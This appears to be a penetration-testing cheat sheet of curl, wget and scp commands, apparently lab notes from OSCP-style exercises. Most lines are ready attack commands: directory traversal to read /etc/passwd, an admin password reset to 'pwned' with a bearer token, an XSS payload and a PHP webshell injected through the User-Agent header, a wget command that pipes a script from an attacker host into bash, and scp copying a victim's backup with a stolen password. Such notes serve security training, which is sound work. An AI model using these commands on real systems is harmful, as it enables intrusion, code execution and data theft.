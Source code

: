 ```bash
# Silent the status with the -s flag
curl -s -O inlanefreight.com/index.html

# Download files
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

# -v : Show the full details of the HTTP request and response
We can find the stack information as well(ex. saltstack)
curl -v target:port

# directory traversal
curl --path-as-is http://192.168.x.x/../../../../../../etc/passwd
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

# GET Request
## when you get 405 method not allowed, try something else other than GET such as POST or PUT etc.
curl -i http://192.168.50.16:5002/users/v1/admin/password

# POST Request
curl -X POST --data 'Archive=git' http://192.168.50.189:8000/archive
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login

# PUT Request
curl -X 'PUT' 'http://192.168.50.16:5002/users/v1/admin/password' -H 'Content-Type: application/json' -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' -d '{"password": "pwned"}'

# User-agent
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(...))</script>" --proxy 127.0.0.1:8080
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"

# json format
| jq .
```

### wget
```bash
# Download a file and execute it
wget -O - http://192.168.45.175:443/lse.sh | bash
```

### SCP
```bash
# on our kali attack machine, we're using victim machine's user stuart username and password!
scp stuart@192.168.250.144:/opt/backup/sitebackup3.zip sitebackup3.zip 
stuart@192.168.250.144's password: 

scp linenum.sh user@remotehost:/tmp/linenum.sh
```
